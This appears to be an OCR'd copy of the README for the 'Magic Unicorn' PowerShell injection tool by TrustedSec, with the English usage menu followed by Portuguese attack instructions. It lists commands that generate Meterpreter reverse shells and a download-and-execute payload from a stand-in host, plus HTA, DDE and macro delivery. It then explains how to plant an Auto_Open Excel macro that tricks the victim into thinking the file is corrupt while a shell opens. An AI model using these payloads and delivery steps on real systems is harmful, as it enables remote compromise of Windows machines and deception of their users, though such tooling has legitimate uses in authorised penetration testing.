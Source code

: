 
aHR0cHM6Ly93d3cuYmluYXJ5ZGVmZW5zZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDUvS2VlcE1hdHRIYXBweS5qcGc=

                
-------------------- Magic Unicorn Attack Vector -----------------------------

Native x86 powershell injection attacks on any Windows platform.
Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help
```

###              -----INSTRUÇÕES DE ATAQUE DO POWERSHELL----

Tudo agora é gerado em dois arquivos, powershell_attack.txt e unicorn.rc. O arquivo de texto contém todo o código necessário para injetar o ataque powershell na memória. Observe que você precisará de um local que suporte algum tipo de injeção de comando remoto. Muitas vezes, isso pode ser feito por meio de um documento do Excel/Word ou por meio de psexec_commands dentro do Metasploit, SQLi, etc. Existem muitas implicações e cenários para onde você pode usar esse ataque. Basta colar o comando powershell_attack.txt em qualquer janela do prompt de comando ou onde você puder chamar o executável do powershell e ele retornará um shell para você. Este ataque também oferece suporte a windows/download_exec para um método de carga útil em vez de apenas cargas úteis do Meterpreter. Ao usar o download e o exec, basta colocar python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe e o código do powershell fará o download da carga útil e executará.

Observe que você precisará ter um ouvinte habilitado para capturar o ataque.

### -----INSTRUÇÕES DE ATAQUE DE MACRO----

Para o ataque de macro, você precisará ir para Arquivo, Propriedades, Faixas e selecionar Desenvolvedor. Assim que você fizer
isso, você terá uma guia de desenvolvedor. Crie uma nova macro, chame-a de Auto_Open e cole o código gerado
nisso. Isso será executado automaticamente. Observe que uma mensagem solicitará ao usuário dizendo que o arquivo
está corrompido e fecha automaticamente o documento Excel. ESSE É UM COMPORTAMENTO NORMAL! Isso está enganando o
vítima de pensar que o documento do Excel está corrompido. Você deve obter um shell por meio de injeção de powershell
depois disso.

Se você estiver implantando isso nas versões Office365/2016+ do Word, precisará modificar a primeira linha de
a saída de: Sub Auto_Open()
 
Para: Sub AutoOpen()
```